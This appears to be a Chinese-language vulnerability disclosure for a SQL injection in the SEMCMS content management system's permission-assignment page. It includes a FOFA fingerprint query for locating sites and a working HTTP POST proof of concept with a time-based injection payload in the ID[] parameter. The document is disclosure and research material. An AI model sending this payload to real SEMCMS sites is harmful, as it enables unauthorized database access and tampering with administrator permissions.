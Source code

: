 SEMCMS外贸网站管理系统存在前台sql注入漏洞

 

漏洞概述：

SEMCMS是一个支持多种语言的外贸网站内容管理系统(CMS)，由于权限分配功能处对权限ID参数输入没有过滤，导致存在sql注入漏洞。

官网地址：http://www.sem-cms.com

 

漏洞复现：

app="SEMCMS"

![image](https://github.com/lampSEC/semcms/assets/88041357/ef6cafc1-1ff0-4b49-bd58-abad68a556ea)

![image](https://github.com/lampSEC/semcms/assets/88041357/9f6223b2-c531-4c6f-86ff-4f8ec28c6fcc)


后台地址路径是部署成功随机生成的，本地复现需要搭建漏洞环境，最新php版本源码地址：官网下载地址

http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip

![image](https://github.com/lampSEC/semcms/assets/88041357/8817ca27-7cc1-40e0-b1aa-0608a9be88e5)


 

ID权限参数拼接sql语句无过滤

![image](https://github.com/lampSEC/semcms/assets/88041357/c449aff6-00a4-4297-86bc-70e2c0473446)


（uid参数是用户的ID，本次复现修改管理员的权限，完成测试后修改数据库进行权限恢复,管理员权限参数为74,76,77,87,88,116,123,170,75,78,79,80,81,82,83,84,89,100,181）

![image](https://github.com/lampSEC/semcms/assets/88041357/e3ca438c-e988-4cc6-b4d4-15954fd45bd8)


构造请求poc

![image](https://github.com/lampSEC/semcms/assets/88041357/29047e76-a987-4d3c-9f55-40f3eda297b8)


管理员权限被修改为77

![image](https://github.com/lampSEC/semcms/assets/88041357/324feef4-9c03-42e3-bb6a-c99ad3827dac)


拼接sql语句进行注入

![image](https://github.com/lampSEC/semcms/assets/88041357/9bdde0ab-f8e8-4699-9349-c26c118343f9)


![image](https://github.com/lampSEC/semcms/assets/88041357/33f660ae-fcf6-49f1-86cd-61414573fc75)


 ```
 POST /MtHDbu_Admin/SEMCMS_User.php?CF=fenpei HTTP/1.1
 Host: 192.168.96.1
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 Accept-Encoding: gzip, deflate
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 28
 Origin: http://192.168.96.1
 Connection: close
 Upgrade-Insecure-Requests: 1
 
 ID[]=77'+and+sleep(3)#&uid=1
 ```



 

Sqlmap验证：

![image](https://github.com/lampSEC/semcms/assets/88041357/90a99dbd-f67b-440d-871d-c66fb1de7db5)


测试完成修改数据库管理员权限

74,76,77,87,88,116,123,170,75,78,79,80,81,82,83,84,89,100,181

![image](https://github.com/lampSEC/semcms/assets/88041357/17b8e1d4-015f-4387-8c2d-4fd69a27a09e)


测试完成（如不想变动管理员权限，复现可创建一个测试用户）

 
